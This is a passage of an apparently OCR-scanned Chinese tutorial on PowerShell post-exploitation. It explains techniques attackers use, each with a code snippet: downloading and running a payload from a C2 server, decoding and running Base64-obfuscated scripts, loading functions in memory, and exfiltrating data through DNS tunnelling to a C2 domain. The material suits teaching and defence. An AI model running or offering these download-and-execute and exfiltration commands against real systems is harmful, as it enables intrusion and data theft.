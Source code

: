 在这个示例中，PowerShell 脚本将本地系统的进程列表发送到 C2 服务器，并执行收到的命令。

## 有效负载交付的脚本

攻击者常常使用 PowerShell 脚本从外部源下载并执行恶意有效负载。以下示例演示了一个脚本如何下载并执行有效负载：

```
 # Downloading payload from C2 server
$C2Server = "htt p://c2server.snowcap cyber.com"
$PayloadURL = "$C2Server/malicious-payload.exe"
$DownloadPath = "C:\Temp\malicious-payload.exe"
Invoke-WebRequest -Uri $PayloadURL -OutFile $DownloadPath
# Executing the downloaded payload
Start-Process -FilePath $DownloadPath
```

在这个场景中，PowerShell 脚本从 C2 服务器获取恶意负载并在受感染的系统上执行。

## 为了规避检测而编码的有效负载

为了规避检测，攻击者常常对其有效负载进行编码。例如，Base64 编码可以用来模糊化恶意脚本。考虑以下情况：

```
 $EncodedPayload = "Encoded Base64 payload here"
$DecodedPayload = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($EncodedPayload))
# Execute the decoded payload
Invoke-Expression $DecodedPayload
```

在这个示例中，脚本解码一个 Base64 编码的有效负载并执行解码后的 PowerShell 命令。

## 使用函数的动态代码加载

攻击者可以在后期利用过程中动态地将代码加载到内存中。PowerShell 函数提供了一种实现此目的的方法。以下是一个示例：

```
 # Define a malicious function
function Invoke-MaliciousCode {
    # Malicious actions here
    Write-Host "Executing malicious code..." }
# Call the malicious function
Invoke-MaliciousCode
```

在这种情况下，脚本定义了一个带有恶意操作的函数，可以在后期利用阶段的任何时刻调用。

## 用于隐蔽通信的 DNS 隧道

PowerShell 可以用于 DNS 隧道技术，使攻击者能够建立隐蔽的通信通道。以下示例展示了一种简单的 DNS 隧道方法：

```
 $C2Server = "malicious-dns-server.snowcapcyber.com"
$DataToSend = "Data to exfiltrate"
# Encode and send data via DNS
$EncodedData = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($DataToSend))
Resolve-DnsName -Name "$EncodedData.$C2Server"
```
